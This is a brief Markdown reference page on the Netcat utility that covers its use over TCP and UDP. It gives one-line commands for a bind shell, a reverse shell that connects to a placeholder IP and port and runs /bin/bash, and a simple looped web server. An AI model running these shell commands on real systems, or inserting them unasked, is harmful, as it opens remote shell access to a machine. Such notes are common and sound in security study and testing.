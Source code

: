 # Netcat

**Netcat** is a utility for networking over
[TCP](../../network/protocols/tcp.md) and [UDP](../../network/protocols/udp.md).
It similar to [Socat](./socat.md), albeit more simplistic and more often bundled
into distros by default. Note that there are several implementations of Netcat
and options between the different implementations may vary.

## Bind shell

One can create a simplistic bind shell with Netcat using the following command:

```
nc -lp 8080 -e /bin/bash
```

## Reverse shell

To initiate a reverse shell, run the following command:

```
nc <IP> <PORT> -e /bin/bash
```

## Web server

One can run a basic static file web server using the following (note that the
`-N` option is unique to the OpenBSD implementation):

```sh
while true; do printf 'HTTP/1.1 200 OK\n\n%s' "$(cat index.html)" | nc -l 80 -N; done
```

